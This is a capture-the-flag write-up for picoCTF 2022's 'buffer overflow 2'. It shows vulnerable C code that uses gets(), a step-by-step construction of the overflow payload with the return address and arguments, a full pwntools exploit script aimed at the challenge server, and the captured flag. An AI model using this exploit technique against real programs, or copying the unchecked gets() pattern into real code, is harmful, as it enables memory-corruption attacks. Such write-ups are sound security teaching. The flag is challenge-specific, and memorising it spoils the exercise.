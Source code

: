 # picoCTF 2022 buffer overflow 2 (Binary Exploitation 300 points)
The challenge is the following,

![Figure 1](img/challenge.png) 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6. 
7.  #define BUFSIZE 100
8.  #define FLAGSIZE 64
9. 
10. void win(unsigned int arg1, unsigned int arg2) {
11.   char buf[FLAGSIZE];
12.   FILE *f = fopen("flag.txt","r");
13.   if (f == NULL) {
14.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
15.                     "own debugging flag.\n");
16.     exit(0);
17.   }
18. 
19.   fgets(buf,FLAGSIZE,f);
20.   if (arg1 != 0xCAFEF00D)
21.     return;
22.   if (arg2 != 0xF00DF00D)
23.     return;
24.   printf(buf);
25. }
26. 
27. void vuln(){
28.   char buf[BUFSIZE];
29.   gets(buf);
30.   puts(buf);
31. }
32. 
33. int main(int argc, char **argv){
34. 
35.   setvbuf(stdout, NULL, _IONBF, 0);
36.   
37.   gid_t gid = getegid();
38.   setresgid(gid, gid, gid);
39. 
40.   puts("Please enter your string: ");
41.   vuln();
42.   return 0;
43. }
```

Here, `gets()` is used in line 29, which is a vulnerable function because it doesn't check for overflow, so I will be exploiting that. I saw that the function `win()` is the function that contains the flag reader, so this is the function I want to jump to. I used `pwndbg` and used `info functions` like in [buffer overflow 1](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1).

![Figure 1](img/gdb.png) 

I saw that `win()` was in `0x08049296`, so this is the return address that I want to jump to. However, unlike [buffer overflow 1](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1), I had to also pass arguments `0xCAFEF00D` and `0xF00DF00D` to the `win()` function, as lines 20 and 22 checks for these.

Here, I saw that the buffer in line 28 can be overflowed with 112 bytes to rewrite the return address, so I prepared 112 `A`,

`a = 'A' * 112`

And I want to jump to the address `0x08049296` so I swapped the endian,

`a += "\x96\x92\x04\x08"
`

I needed the input parameters to `win()` to be `0xCAFEF00D` and `0xF00DF00D`, so I first prepared a padding of 4 bytes,

`a += "CCCC"`

Then I prepared `0xCAFEF00D` by swapping the endian,

`a += "\x0d\xf0\xfe\xca"`

Then I prepared `0xF00DF00D` by swapping the endian,

`a += "\x0d\xf0\x0d\xf0"`


I put everything together into the following [exploit2.py](./files/exploit2.py),

```
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 52578)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = 'A' * 112
a += "\x96\x92\x04\x08"
a += "CCCC"
a += "\x0d\xf0\xfe\xca"
a += "\x0d\xf0\x0d\xf0"
io.sendline(a)

io.interactive()

```

I executed the script and passed the inputs to the remote server,


![Figure 1](img/flag.png) 

Therefore, the flag is,

`picoCTF{argum3nt5_4_d4yZ_eb489c7a}`
